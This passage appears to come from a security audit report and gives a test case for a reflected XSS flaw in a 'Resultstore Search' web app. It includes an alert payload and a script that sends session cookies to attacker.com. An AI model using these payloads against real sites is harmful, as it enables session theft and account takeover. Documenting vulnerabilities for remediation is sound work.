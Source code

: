 - **Security Test Case:**
  1. Access the Resultstore Search application through a web browser.
  2. In the search bar, enter the following payload: `<img src=x onerror=alert('XSS')>`
  3. Click the "Search" button or press Enter to initiate the search.
  4. Observe if an alert box with the text "XSS" appears on the page. If an alert box appears, it indicates that the injected JavaScript code was executed, confirming the reflected XSS vulnerability.
  5. For a more impactful test, try a payload that attempts to steal session cookies and send them to an attacker-controlled server: `<script>window.location='http://attacker.com/cookie_stealer?cookie='+document.cookie;</script>`.  Then, check the logs of `attacker.com` to see if the cookie was successfully sent. You will need to control `attacker.com` to observe the results.

These vulnerabilities represent significant security risks and should be addressed with high priority. Implementing the suggested mitigations is crucial to protect user data and prevent potential attacks.